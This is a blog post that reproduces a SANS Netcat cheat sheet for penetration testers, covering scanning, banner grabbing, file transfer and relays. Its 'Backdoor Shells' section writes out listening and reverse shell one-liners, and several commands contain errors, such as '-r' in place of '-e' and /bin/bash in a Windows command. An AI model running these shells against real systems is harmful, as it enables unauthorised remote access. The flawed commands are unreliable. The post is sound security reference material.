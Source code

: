 ```yaml
---
layout: post
title: "Netcat Cheat Sheet"
date: 2016-05-22 22:12:33 -0700
categories: netcat, pentest
---
```

[Netcat][netcat-link] is considered to be the TCP/IP swiss army knife and is capable of writing data across the network. Its ability to create a connection to almost anything makes it an easy to use utility that is part of any infosec professionals toolbox. This cheat sheet provides tips and tricks for Netcat on both Linux and Unix.

All credit for putting together this cheat sheet goes to Ed Skoudis and [SANS][sans-link]

### Fundamentals

#### Netcat client
{% highlight bash %}
nc [TargetIPaddr] [port]
{% endhighlight %}
Connect to an arbitrary port [port] at IP Address [TargetIPaddr]

#### Netcat listener
{% highlight bash %}
nc -l -p [LocalPort]
{% endhighlight %}
Create a Netcat listener on arbitrary local port [LocalPort]
<br />  

---

### File Transfer

#### Push a file from client to listener
{% highlight bash %}
nc -l -p [LocalPort] > [outfile]
{% endhighlight %}
Listen on [localPort], store results in [outfile]

{% highlight bash %}
nc -w3 [TargetIPaddr] [port] < [infile]
{% endhighlight %}
Push [infile] to [TargetIPaddr] on [port]

#### Pull file from listener back to client
{% highlight bash %}
nc -l -p [LocalPort] < [infile]
{% endhighlight %}
Listen on [LocalPort], prep to push [infile]

{% highlight bash %}
nc -w3 [TargetIPaddr] [port] > [outfile]
{% endhighlight %}
Connect to [TargetIPaddr] on [port] and retrieve [outfile]

---

### TCP Port Scanner

#### Port scan an IP Address
{% highlight bash %}
nc -v -n -z -w1 [TargetIPaddr] [start_port]-[end_port]
{% endhighlight %}
Attempt to connect to each port in a range from [end_port] to [start_port] on IP Address
[TargetIPaddr] running verbosely (-v on Linux, -vv on Windows), not resolving names (-n), without
sending any data (-z), and waiting no more than 1 second for a connection to occur (-w1)

The randomized ports (-r) switch can be used to choose port numbers randomly in the range

---

### TCP Banner Grabber

#### Grab the banner of TCP services running on an IP address from Linux
{% highlight bash %}
echo "" | nc -v -n -w1 [TargetIPaddr] [start_port]-[end_port]
{% endhighlight %}
Attempt to connect to each port in a range form [end_port] to [start_port] on IP Address
[TargetIPaddr] running verbosely (-v), not resolving names (-n), and waiting no more than 1 second
for a connection to occur (-w1). Then send a blank string to the open port and print out any banner
received in response

Add -r to randomize destination ports within the range

Add -p [port] to specify a source port

---

### Backdoor Shells

#### Listening backdoor shell on Linux
{% highlight bash %}
nc -l -p [LocalPort] -e /bin/bash
{% endhighlight %}

#### Listening backdoor shell on Windows
{% highlight bash %}
nc -l -p [LocalPort] -e cmd.exe
{% endhighlight %}

Create a shell on a local port [LocalPort] that can then be accessed using a fundamental
Netcat client

#### Reverse backdoor shell on Linux
{% highlight bash %}
nc [YourIPaddr] [port] -r /bin/bash
{% endhighlight %}

#### Reverse backdoor shell on Windows
{% highlight bash %}
nc [YourIPaddr] [port] -e /bin/bash
{% endhighlight %}

Create a reverse shell that will attempt to connect to [YourIPaddr] on a local [port]. This shell can then be captured on local port [port]. This shell can then be captured using a fundamental netcat listener

---

### Netcat Relays on Linux
To begin, create a FIFO (named pipe) called backpipe:
{% highlight bash %}
cd /tmp
mknod backpipe p
{% endhighlight %}

#### Listener-to-Client Relay
{% highlight bash %}
nc -l -p [LocalPort] 0<backpipe | nc [TargetIPaddr] [port] | tee backpipe
{% endhighlight %}

Create a relay that sends packets from the local port [LocalPort] to a Netcat
client connected to [TargerIPaddr] on port [port]

#### Listener-to-Listener Relay
{% highlight bash %}
nc -l -p [LocalPort_1] 0<backpipe | nc -l -p [LocalPort_2] | tee backpipe
{% endhighlight %}

Create a relay that sends packets from any connection on [LocalPort_1] to any
connection on [LocalPort_2]

#### Client-to-Client Relay
{% highlight bash %}
nc [PreviousHopIPaddr] [port] 0<backpipe | [NextHopIPaddr] [port2] | tee backpipe
{% endhighlight %}

Create a relay that sends packets from the connection to [PreviousHopIPaddr] on port [port] to a Netcat client connected to [NextHopIPaddr] on port [port2]

---

### Netcat Relays on Windows
To begin, enter a temporary directory where we will create .bat files:
{% highlight bash %}
cd c:\temp
{% endhighlight %}

#### Listener-to-Client Relay
{% highlight bash %}
echo nc [TargetIPaddr] [port] > relay.bat
nc -l -p [LocalPort] -e relay.bat
{% endhighlight %}

Create a relay that sends packets from the local port [LocalPort] to a Netcat
Client connected to [TargetIPaddr] on port [port]

#### Listener-to-Listener Relay
{% highlight bash %}
echo nc -l -p [LocalPort_2] > relay.bat
nc -l -p [LocalPort_1] -e relay.bat
{% endhighlight %}

Create a relay that will send packets from any connection on [LocalPort_1] to
any connection on [LocalPort_2]

#### Client-to-Client Relay
{% highlight bash %}
echo nc [NextHopIPaddr] [port2] > relay.bat
nc [PreviosHopIPaddr] [port] -e relay.bat
{% endhighlight %}

Create a relay that will send packets from the connection to [PreviousHopIPaddr]
on port [port] to a Netcat Client connected to [NextHopIPaddr] on port [port2]

---

### Netcat Command Flags
{% highlight bash %}
nc [options] [TargetIPaddr] [ports(s)]
{% endhighlight %}

The [TargetIPaddr] is simply the other side's IP address or domain name. It is
required in client mode of course (because we have to tell the client where to
connect), and is optional in listen mode.

-l : Listen mode (default is client mode)

-L : Listen harder (supported only on Windows version of Netcat). This     option makes Netcat a persistent listener which starts listening again after a client disconnects

-u : UDP mode (default is TCP)

-p : Local port (In listen mode, this is the port listened on. In client mode, this is the source port for all packets sent)

-e : Program to execute after connection occurs, connecting STDIN and STDOUT to the program

-n : Don't perform DNS lookups on names of machines on the other side

-z : Zero-I/O mode (Don't send any data, just emit a packet without payload)

-wN : Timeout for connects, waits for N seconds after closure of STDIN. A Netcat listener with this option will wait for N seconds to make a connection. If the connection doesn't happen in that time, Netcat stops running.

-v : Be verbose, printing out messages on Standard Error, such as when a connection occurs

-vv : Be very verbose, printing even more details on Standard Error

[netcat-link]: https://en.wikipedia.org/wiki/Netcat
[sans-link]: https://www.sans.org/